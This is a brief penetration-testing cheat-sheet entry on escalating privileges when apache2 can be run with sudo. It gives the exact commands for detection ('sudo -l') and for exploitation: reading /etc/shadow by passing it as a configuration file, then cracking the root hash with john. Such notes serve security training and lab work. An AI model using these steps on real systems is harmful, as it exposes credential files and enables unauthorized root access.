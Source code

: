 #### Detection
**Victim's Machine**
```
sudo -l
```

`/usr/sbin/apache2` is listed

#### Exploitation
**Victim's Machine**
```
sudo apache2 -f /etc/shadow
```

- `-f`: specifies a configuration file.

The attacker is tricking the system into using the `/etc/shadow` file as a configuration file. If the command succeeds, it may display the content of the shadow file.

**Attacker's Machine**
```
echo 'ROOT HASH' > hash.txt
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt
```